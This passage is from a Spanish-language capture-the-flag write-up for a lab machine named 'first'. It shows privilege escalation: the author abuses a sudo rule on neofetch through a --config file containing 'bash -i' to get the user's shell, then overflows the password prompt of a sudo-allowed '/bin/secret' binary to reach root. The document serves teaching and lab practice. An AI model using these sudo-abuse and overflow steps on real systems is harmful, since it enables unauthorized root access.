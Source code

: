 De esta forma, vamos a tratar de pivotar al usuario "first". Para ello vamos a mirar la ayuda de *neofetch* para ver si nos podemos aprovechar de algo:

![](/assets/images/first/neo.png){: .align-center}

Esa opción parece interesante, así que vamos a crear un fichero en el que tengamos permisos de escritura y hacer que lo ejecute ese binario:

~~~bash
www-data@first:/tmp$ mktemp
/tmp/tmp.evCpbdlQaa
www-data@first:/tmp$ nano /tmp/tmp.evCpbdlQaa
~~~

Introducimos este contenido y guardamos:

~~~bash
#!/bin/bash

bash -i
~~~

Le damos permisos al fichero para que pueda leerlo *neofetch* y ejecutamos el binario como "first":

~~~bash
www-data@first:/home$ chmod 655 /tmp/tmp.KDh1g6M8ro
www-data@first:/home$ sudo -u first neofetch --config /tmp/tmp.KDh1g6M8ro
first@first:~$ whoami
first
~~~

Volvemos a comprobar en este caso qué permisos tiene este usuario:

~~~bash
first@first:~$ sudo -l
Matching Defaults entries for first on first:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User first may run the following commands on first:
    (ALL) NOPASSWD: /bin/secret
~~~

Como recordaréis, al principio nos dio una pista (**patch the buffer overflow in our secret file ;)**), y al ejecutar ese binario pide una pass la cual no conocemos. Lo que vamos a intentar es meter varios caracteres y ver si "escapamos" de la comprobación.

~~~bash
first@first:/home$ sudo secret
pass: EsperemosQueFuncioneElBufferOverflow
correct, input command:bash
root@first:/home# cd /root
root@first:~# ls
r00t.txt  snap
root@first:~# cat r00t.txt 
~~~ 
